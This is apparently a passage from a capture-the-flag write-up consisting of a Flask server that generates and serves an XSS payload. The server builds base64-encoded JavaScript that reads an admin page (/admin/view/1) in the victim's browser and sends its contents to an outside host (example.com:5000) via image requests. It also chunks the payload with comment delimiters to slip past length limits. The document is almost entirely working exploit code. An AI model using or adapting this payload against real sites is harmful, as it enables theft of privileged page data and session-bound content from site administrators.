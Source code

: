 Here is my HTTP server, including the XSS payload:

```python
#!/usr/bin/env python3
from flask import Flask, request, redirect
import base64

app = Flask(__name__)

def genurl(ip): # e.g. 10.1.2.3:5000
    def b64e(x):
        return base64.b64encode(x.encode()).decode()

    host = 'http://'+ip+'/oooverflow'
    
    js = '''
var snd = function(data) {
document.getElementsByTagName('body')[0].appendChild(document.createElement('img')).src='http://example.com:5000/a?'+data;
}

setInterval(function(){snd('ping');},500+500);

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
var txt = xhr.responseText;
snd(btoa(txt));
}
}
xhr.open('GET', 'http://REPLACEME/admin/view/1', true);
xhr.send(null);
'''.replace('REPLACEME', ip)
    
    assert '"' not in js
    b64_js = b64e(js)
    
    xss = '<img src=x onerror="eval(atob(\'{}\'))">'.format(b64_js)
    delimeter = "'/**/+'"
    payload = 'bbbb' # shift 4 bytes
    delta = 55 - len(delimeter)
    for i in range(0, len(xss), delta):
        print(xss[i:i+delta] + delimeter)
        payload += xss[i:i+delta] + delimeter
    payload = payload[:-len(delimeter)] # remove last delimeter
    payload = host.ljust(56, 'a') + payload
    return payload

@app.route('/')
def index():
    ip = request.environ.get('HTTP_X_FORWARDED_FOR').rsplit(',')[-1]
    ip = ip + ':5000'
    return redirect(genurl(ip), code=302)

if __name__ == '__main__':
    app.run(port=5000, host="0.0.0.0")
```
